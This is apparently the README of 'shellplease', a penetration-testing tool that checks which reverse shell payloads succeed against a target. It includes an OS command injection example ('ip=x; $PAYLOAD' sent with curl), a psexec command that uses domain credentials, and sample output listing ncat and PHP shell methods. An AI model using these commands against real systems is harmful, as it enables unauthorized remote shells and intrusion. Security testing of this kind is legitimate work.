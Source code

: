 # Shell? Please?
This tool checks multiple reverse shell payloads usability.
It opens a local tcp port on the attacking machine, similar to `nc -nlvp`,
then sends predefined payloads with a user supplied carrier
and waits for reverse connections.

## Carrier
The user can supply either a script or a command to carry the payload.

### Command Carrier
```sh
# command carrier should use a PAYLOAD env variable as payload
# note: something is not a real command, fool
shellplease.py --command-carrier "something \$PAYLOAD"
shellplease.py -c "something \$PAYLOAD"
```

### Script Carrier
```sh
shellplease.py -s carrier.sh
```
```sh
#!/bin/sh
# carrier.sh

something $PAYLOAD
```

## Examples
### OS Command Inject via HTTP
Imagine a webpage that executes a shell command with an argument provided by the user
```php
system("ping " . $_GET['ip'])
```

We can use shellplease to see what executables/commands can be used to obtain a reverse shell
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py -H 192.168.1.100 -c "curl http://192.168.1.5/ -G --data-urlencode \"?ip=x; \$PAYLOAD\""
```

Alternatively, we can use a script to carry the payload
```sh
#!/bin/sh
# carrier.sh
curl http://192.168.1.5/ -G --data-urlencode "?ip=x; $PAYLOAD"
```

### Command Execution vis PSExec
Now, imagine you have credentials to some user account in a windows/ad environment.
You could use the following:
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py --os windows --local-host 192.168.1.100 -c "impacket-psexec DOMAIN/USER:PASS@192.168.1.5 \"\$PAYLOAD\""
```

Sample output:
```
[+] started http server on 192.168.1.100:55067
[+] started tcp listener on 192.168.1.100:34921
[-] ncat.exe -e w/ download over cmd.exe
[-] ncat.exe -e w/ download over powershell.exe
[-] PHP exec
[-] PHP system
[-] PHP `
[-] PHP popen
[-] PHP proc_open
[+] Windows ConPty
```

## Usage
```
usage: shellplease.py [-h] [-H HOST] [-s CARRIER_SCRIPT] [-c CARRIER_COMMAND] [-C CONFIG] [-os {linux,windows,mac}]
                      [-sh REMOTE_SHELL] [-p PORT] [-P HTTP_SERVER_PORT] [-a] [-ct CONNECTION_TIMEOUT] [-et ECHO_TIMEOUT]
                      [-po]

Shell? Please?

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST, --local-host HOST
                        local host (default: )
  -s CARRIER_SCRIPT, --carrier-script CARRIER_SCRIPT
                        shell script that sends the payload to the target, it should use a PAYLOAD env variable as payload
                        (default: )
  -c CARRIER_COMMAND, --carrier-command CARRIER_COMMAND
                        shell command that sends the payload to the target, it should use a PAYLOAD env variable as payload
                        (default: )
  -C CONFIG, --config CONFIG
                        .json configuration file location (default: config.json)
  -os {linux,windows,mac}, --os {linux,windows,mac}
                        target operating system (default: linux)
  -sh REMOTE_SHELL, --remote-shell REMOTE_SHELL
                        shell to be executed (default: )
  -p PORT, --port PORT, --local-port PORT
                        local port (default: 0)
  -P HTTP_SERVER_PORT, -hp HTTP_SERVER_PORT, --http-server-port HTTP_SERVER_PORT
                        http port to serve assets (default: 0)
  -a, --all             check all payloads (default: False)
  -ct CONNECTION_TIMEOUT, --connection-timeout CONNECTION_TIMEOUT
                        connection accept timeout in seconds (default: 1)
  -et ECHO_TIMEOUT, --echo-timeout ECHO_TIMEOUT
                        echo check timeout in seconds (default: 3)
  -po, --print-only     print paylods only, don't check. (default: False)
```

